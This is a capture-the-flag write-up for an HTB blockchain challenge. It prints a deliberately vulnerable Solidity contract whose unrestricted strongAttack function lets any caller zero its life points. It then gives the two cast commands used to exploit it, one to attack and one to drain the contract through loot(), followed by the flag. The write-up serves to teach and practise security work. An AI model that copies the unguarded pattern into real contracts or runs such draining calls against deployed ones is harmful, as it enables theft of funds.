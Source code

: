 # Survival of the Fittest

### CHALLENGE DESCRIPTION
**_Alex had always dreamed of becoming a warrior, but she wasn't particularly skilled. When the opportunity arose to join a group of seasoned warriors on a quest to a mysterious island filled with real-life monsters, she hesitated. But the thought of facing down fearsome beasts and emerging victorious was too tempting to resist, and she reluctantly agreed to join the group. As they made their way through the dense, overgrown forests of the island, Alex kept her senses sharp, always alert for the slightest sign of danger. But as she crept through the underbrush, sword drawn and ready, she was startled by a sudden movement ahead of her. She froze, heart pounding in her chest as she realized that she was face to face with her first monster._**


## Solution

**STEP 1: Code reviewing**
 
We're given 2 Solidity files:
 
>**`Setup.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Creature} from "./Creature.sol";

contract Setup {
    Creature public immutable TARGET;

    constructor() payable {
        require(msg.value == 1 ether);
        TARGET = new Creature{value: 10}();
    }
    
    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }
}
```

>**`Creature.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Creature {
    
    uint256 public lifePoints;
    address public aggro;

    constructor() payable {
        lifePoints = 20;
    }

    function strongAttack(uint256 _damage) external{
        _dealDamage(_damage);
    }
    
    function punch() external {
        _dealDamage(1);
    }

    function loot() external {
        require(lifePoints == 0, "Creature is still alive!");
        payable(msg.sender).transfer(address(this).balance);
    }

    function _dealDamage(uint256 _damage) internal {
        aggro = msg.sender;
        lifePoints -= _damage;
    }
}
```
To take the flag we should defeat our enemies with a lifePoints of 20. We have 2 options: `punch()` and `stringAttack(uint256 _damage)`. 

**STEP 2: Checking website**

Meeting our enemies ;)
![image](https://github.com/luvranse/web3/assets/46570641/2a64b0db-e3be-4682-a6ee-9a951051de1f)

Also you can check guide in `docs`.
![image](https://github.com/luvranse/web3/assets/46570641/1bbf0712-2ede-4a15-a45e-1533e63e4455)

Check the `connections` to find needed address `TargetAddress` and key `PrivateKey`.
![image](https://github.com/luvranse/web3/assets/46570641/999be50d-3c52-4199-a951-ca6916d8bc11)

**STEP 3: The Battle**

To interact with blockchain on /rpc endpoint we gonna use `cast`.

Let's fight:
```
cast send --rpc-url http://IP:PORT/rpc --private-key PRIVATE_KEY TARGET_ADDRESS "strongAttack(uint256)" 20
```
![image](https://github.com/luvranse/web3/assets/46570641/2f8c717f-f6d8-40aa-bfab-6b2726d41fb0)

After defeating the enemies, we can collect the loot.
```
cast send --rpc-url http://IP:PORT/rpc --private-key PRIVATE_KEY TARGET_ADDRESS "loot()"
```
![image](https://github.com/luvranse/web3/assets/46570641/7c18c04b-7c2a-4594-aa12-ef656168bf36)

Now we can get our flag. Congratz!
![image](https://github.com/luvranse/web3/assets/46570641/60e8686c-59c2-4234-a216-edbb2ff97027)

###FLAG
```
HTB{g0t_y0u2_f1r5t_b100d}
```
